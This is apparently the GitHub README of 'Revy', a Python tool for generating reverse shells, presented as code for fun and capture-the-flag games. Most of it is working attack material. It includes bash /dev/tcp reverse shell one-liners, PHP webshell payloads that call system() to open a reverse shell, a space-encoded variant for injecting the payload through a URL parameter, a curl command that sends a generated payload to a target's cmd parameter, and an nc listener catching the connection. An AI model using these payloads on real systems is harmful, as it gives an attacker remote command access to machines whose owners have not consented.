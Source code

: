 # Revy
### Fast Reverse Shell Generator
This is some fast and dirty code for fun and CTFs.<BR>
  
┌──(kali㉿kali)-[~]\
└─$ `curl http://127.0.0.1:50000?cmd=$(revy eth0:1234 nc -s)`<BR><BR>
  
┌──(kali㉿kali)-[~]\
└─$ `rlwrap nc -lvnp 1234`<BR>
listening on [any] 1234 ...<BR>
`connect to [192.168.199.130] from (UNKNOWN) [192.168.199.130] 39682`<BR><BR>
# 
### Many Thanks to:<BR>
[RevShells](https://www.revshells.com/)<BR>
[0KAMi93](https://github.com/0KAMi93)
  <BR>
# 
## Usage
### Necessary Arguments

```
Interface:ListeningPort
Reverse Shell
```
  
### Optional Arguments

```

-w      WebShell                ('-w list' For webshell list)
-n      Nohup
-b      Base64 Encode
-e      Escape Char             (Comma Separated Values)
-u      UrlEncode
-fu     Full URL Encode         ( Thanks to 0KAMi93 )
-s      Space to Cross

```
    
## Examples:
┌──(kali㉿kali)-[~]\
└─$ `revy 10.10.10.10:1234 bash`   

`bash -i >& /dev/tcp/10.10.10.10/1234 0>&1`
                                                                                                                                                                                                                                           
┌──(kali㉿kali)-[~]\
└─$ `revy eth0:1234 bash -w phpsystem`

`<?php system('bash -i >& /dev/tcp/192.168.199.135/1234 0>&1');?>`
                                                                                                                                                                                                                                           
┌──(kali㉿kali)-[~]\
└─$ `revy eth0:1234 bash -w phpsystem -s`

`<?php+system('bash+-i+>&+/dev/tcp/192.168.199.135/1234+0>&1');?>`
    <BR><BR>
## Add an Alias:
`alias revy="/usr/bin/python3 /opt/Revy/revy.py";echo 'alias revy="/usr/bin/python3 /opt/Revy/revy.py"' >> ~/.zshrc`

Remember to change '/opt/Revy/revy.py' to the actual location of the script. 
